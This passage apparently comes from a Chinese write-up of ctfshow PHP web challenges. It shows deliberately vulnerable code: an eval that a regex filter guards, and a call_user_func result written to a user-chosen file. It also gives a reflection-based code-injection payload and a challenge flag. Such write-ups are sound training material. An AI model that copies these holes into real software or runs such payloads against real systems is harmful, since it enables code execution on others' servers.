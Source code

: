 ```php
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>
```

这题使用上面类反射的方法

payload：`/?v1=1&v2=echo%20new%20ReflectionClass&v3=;`

不过这里题目flag最后一组少给了一位要爆破flag

ctfshow{1beedc69-683f-4a15-b7e5-88484f8d249a}

## Web102：精华

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 20:59:43

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?>
```
